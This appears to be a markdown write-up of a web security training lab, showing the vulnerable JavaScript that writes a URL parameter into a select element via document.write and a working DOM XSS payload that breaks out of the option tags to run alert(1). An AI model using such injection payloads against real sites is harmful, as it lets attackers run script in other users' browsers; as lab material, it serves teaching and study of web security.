 
### LAB 10 - DOM XSS in document.write sink using source location.search inside a select element

### Lab Description

![image](https://github.com/user-attachments/assets/bcab6293-1df9-45e8-9212-e3ad63ea1994)


### Solution

We press contrl+u annd see the sink which is shown below:

```

var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
![image](https://github.com/user-attachments/assets/0a738097-6c16-4cde-9bd4-73c752f5f911)

```

![image](https://github.com/user-attachments/assets/57262be2-32e1-4751-a2cc-fc9137427cab)

The parameter storeId is written between "" and "". That means if we add that value in the GET request it appears between the options, for example accessing `"/product?productId=4&storeId=1"`.

![image](https://github.com/user-attachments/assets/40b8b736-4dfd-4f7e-8775-ce39f7761496)

To escape the option tags we can use the payload:

```

</option><script>alert(1)</script><option selected>
/product?productId=4&storeId=</option><script>alert(1)</script><option%20selected>

```
![image](https://github.com/user-attachments/assets/4c9f4987-1e7a-4673-b67c-a5ea6c764e6c)

Lab is solved

---

### LAB 11 - DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
